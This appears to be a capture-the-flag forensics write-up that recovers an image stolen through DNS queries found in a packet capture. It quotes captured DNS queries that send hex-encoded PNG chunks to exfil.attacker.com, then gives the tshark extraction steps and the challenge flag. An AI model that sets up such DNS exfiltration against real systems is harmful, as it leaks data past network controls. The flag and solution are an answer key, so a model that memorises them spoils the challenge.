


### **Challenge Name:** Just a PCAP  

### **Description:**  
An image has been stolen, can you find it in the PCAP file?  

### **Challenge Files:**  
**[Forensic_4_-_justapcap.zip](Resources/Forensic_4_-_justapcap.zip)**  

---

### **Solution:**  

#### **Step 1: Extracting the PCAP File**  
Unzipping the challenge file to obtain the `.pcap` file:  

```bash
┌──(kali㉿kali)-[~/Desktop/tmp/forensics]
└─$ unzip Forensic_4_-_justapcap.zip                
Archive:  Forensic_4_-_justapcap.zip
  inflating: justapcap.pcap 
```

---

#### **Step 2: Analyzing the PCAP in Wireshark**  
Opening the `justapcap.pcap` file in **Wireshark**, we see something interesting in the first packet:  

```plaintext
1	0.000000	10.20.82.103	8.8.8.8	DNS	119	Standard query 0x0000 A 89504e470d0a1a0a0000000d49484452000004800000028808.000.exfil.attacker.com
```

📌 **Observation:**  
- The query name contains **hexadecimal values**, specifically:  
  - **`89504e470d0a1a0a`** → This is the **PNG file header** (`‰PNG....`).  

**Screenshot:**  
  

Similarly, the **next packet** continues the pattern:  

```plaintext
2	0.000542	10.20.82.103	8.8.8.8	DNS	119	Standard query 0x0000 A 06000000082b810d000000017352474200aece1ce900000004.001.exfil.attacker.com
```

📌 **Conclusion:**  
- The attacker has **exfiltrated an image file over DNS queries**.  
- The **filename segments (`000`, `001`, ...) are sequential**, meaning the image is split across multiple packets.  

---

#### **Step 3: Extracting Data Using Tshark**  
To extract the **hexadecimal values** from the DNS queries, run:

```bash
tshark -r justapcap.pcap -Y "dns.qry.name" -T fields -e dns.qry.name | grep -o '^[^.]*' > extracted_data.txt
```

📌 **Post-processing:**  
- Remove the last **two lines** from `extracted_data.txt`.  
- Ensure that the **last byte is `82`**, which is **valid for PNG files**.  

**Final Processed File:**  
**[extracted_data.txt](Resources/extracted_data.txt)**  

---

#### **Step 4: Reconstructing the PNG File**  
Using a **Python script** (`script.py`) to **convert the hex data back into a PNG** file:  

**[script.py](Resources/script.py)**  

Running the script gives us the **exfiltrated image**:  

****  

---

### **Flag:**  
```
ectf{DN5_3xf1ltr@t10n_15_f1nd3d}
```
---
